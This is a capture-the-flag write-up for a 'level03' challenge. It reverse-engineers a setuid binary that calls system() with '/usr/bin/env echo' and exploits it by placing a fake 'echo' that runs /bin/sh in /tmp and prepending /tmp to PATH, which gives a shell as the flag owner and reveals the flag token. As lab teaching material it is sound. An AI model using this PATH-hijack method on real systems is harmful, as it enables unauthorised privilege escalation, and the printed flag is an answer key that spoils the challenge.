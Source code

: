 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)
```

This shows that we are operating as the user `level03`.

---

## Step 2: Searching for Files

Next, let's check what files are in our `/home` directory:

```bash
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

We find a 32-bit binary owned by `flag03` with executable permissions for our user. Let's transfer it to our local machine for reverse engineering:

```bash
$ scp -P 4242 level03@machine_ip:/home/level03/level03 .
```

---

## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:

```c
void main(void)
{
  __gid_t groupe_id;
  __uid_t user_id;
  
  groupe_id = getegid();
  user_id = geteuid();
  setresgid(groupe_id,groupe_id,groupe_id);
  setresuid(user_id,user_id,user_id);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

This code contains a security vulnerability. The `system` function is used to execute the command `/usr/bin/env echo Exploit me`. The problem arises from the fact that `system` uses the shell to execute the command, and if we can manipulate the environment (specifically the `PATH` variable), we execute arbitrary commands with elevated privileges.

---

## Step 4: Exploiting the Binary to Get a Reverse Shell

To exploit this vulnerability, we can create a malicious `echo` command that spawns a shell and place it at the beginning of the `PATH` environment variable. When the program searches for the `echo` binary, it will search within the directories listed in the `PATH` environment variable (as `/usr/bin/env` does), and it will find our malicious `echo` script first.

```bash
$ echo '/bin/sh' > /tmp/echo
$ chmod +x /tmp/echo
$ export PATH=/tmp:$PATH
```

Now, run the vulnerable binary:

```bash
$ ./level03
% id
uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)

% getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

And there you have it, the token is `qi0maab88jeaj46qoumi7maus`.
